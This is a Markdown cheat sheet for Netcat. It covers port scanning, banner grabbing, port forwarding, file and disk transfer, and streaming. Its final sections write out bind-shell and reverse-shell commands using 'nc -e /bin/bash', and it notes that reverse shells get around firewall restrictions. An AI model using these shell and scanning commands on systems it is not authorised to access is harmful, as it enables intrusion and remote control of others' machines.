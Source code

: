 ```yaml
---
title: Netcat
date: 2020-11-25 18:28:43
icon: icon-style
background: bg-gray-600
tags: 
    - nc
categories:
    - Toolkit
intro:  This cheat sheet provides various for using Netcat on both Linux and Unix.
---
```


Getting started {.cols-3}
---------------

### Usage

Connect to a host located anywhere

```
nc [options] [host] [port]
```

Listen for incoming connections
```
nc -lp port [host] [port]
```

Arbitrary TCP and UDP connections and listens.



### Option examples {.col-span-2}

| Option | Description                 | Example                                            |
|--------|-----------------------------|----------------------------------------------------|
| `-h`     | nc -h                       | Help                                               |
| `-z`     | nc -z 192.168.1.100 1-100        | Port scan for a host or IP address                 |
| `-v`     | nc -zv 192.168.1.100 1-100     |   Provide verbose output   | 
| `-n`     | nc -zn 192.168.1.100 1-100     | Fast scan by disabling DNS resolution              |
| `-l`     | nc -lp 50                 | TCP server mode                                    |
| `-w`     | nc -w 180 192.168.1.100 8090     | Define timeout value                               |
| `-k`     | nc -kl 8090 | Continue listening after disconnection |
| `-u`     | nc -u 192.168.1.100 8090 | Use UDP instead of TCP |
| `-q`     | nc -q 1 192.168.1.100 8090 | Client stay up after EOF |
| `-4`     | nc -4 -l 8090 | IPv4 only                                          |
| `-6`     | nc -6 -l 8090 | IPv6 only                                          |
{.shortcuts}


Examples {.cols-3}
--------

### Banner grabbing
```
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```
or
```
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25
```
nc -zvn 192.168.1.1 21-25
```

Scan ports 22, 3306 and 8080
```
nc -zvn 192.168.1.1 22 3306 8080
```


### Proxy and port forwarding
```
nc -lp 8001 -c "nc 127.0.0.1 8000"
```
or
```
nc -l 8001 | nc 127.0.0.1 8000
```
Create a tunnel from one local port to another


### Chat client-server
Server (192.168.1.100)
```
nc -l 8090
```

Client
```
nc 192.168.1.100 8090
```

After this whatever you type on machine B will appear on A and vice-versa.


### Download file

Server (192.168.1.100)
```
nc -l 8090 < file.txt
```

Client
```
nc -n 192.168.1.100 8090 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.


### Upload file

Server (192.168.1.100)
```
nc -l 8090 > file.txt
```

Client
```
nc 192.168.1.100 8090 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:


### Directory transfer

Server (192.168.1.100)
```
tar -cvf – dir_name | nc -l 8090
```

Client
```
nc -n 192.168.1.100 8090 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.


### Encrypt transfer {.col-span-2}


Server (192.168.1.100)
```
nc -l 8090 | openssl enc -d -des3 -pass pass:password > file.txt
```

Client
```
openssl enc -des3 -pass pass:password | nc 192.168.1.100 8090
```

Encrypt data before transfering over the network



### Clones

Server (192.168.1.100)
```
dd if=/dev/sda | nc -l 8090
```

Client
```
nc -n 192.168.1.100 8090 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda



### Video streaming

Server (192.168.1.100)
```
cat video.avi | nc -l 8090
```

Client
```
nc 192.168.1.100 8090 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat




### Remote shell

Server (192.168.1.100)
```
nc -l 8090 -e /bin/bash -i
```

Client
```
nc 192.168.1.100 8090
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.



### Reverse shell

Server (192.168.1.100)
```
nc -l 8090
```

Client
```
nc 192.168.1.100 8090 -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

